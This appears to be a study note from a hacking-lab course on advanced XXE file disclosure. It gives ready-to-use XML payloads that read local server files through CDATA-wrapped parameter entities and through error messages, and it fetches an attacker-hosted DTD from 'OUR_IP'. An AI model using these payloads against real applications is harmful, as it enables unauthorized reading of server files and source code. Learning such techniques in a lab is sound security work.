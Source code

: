 # 🦑 Advanced File Disclosure

In some cases, the web application may not output any input values in some instances, so we may try to force it through errors.

### Advanced Exfiltration with CDATA

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

We have to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD

```xml
<!ENTITY joined "%begin;%file;%end;">
```

```shell-session
ElFelixi0@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
ElFelixi0@htb[/htb]$ python3 -m http.server 8000
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

<figure><img src="../../../../.gitbook/assets/image (1435).png" alt=""><figcaption></figcaption></figure>

### Error Based XXE

If the the web application does not write any output, we would have to look for displays runtime errors (e.g., PHP errors) and see if the app does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.

Let's say we send malformed XML data to the app:

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We see the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files

To exploit this we need to host a DTD file that contains the following payload ->

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.

Then we just need to call our hosted DTD script ->

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**_

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>
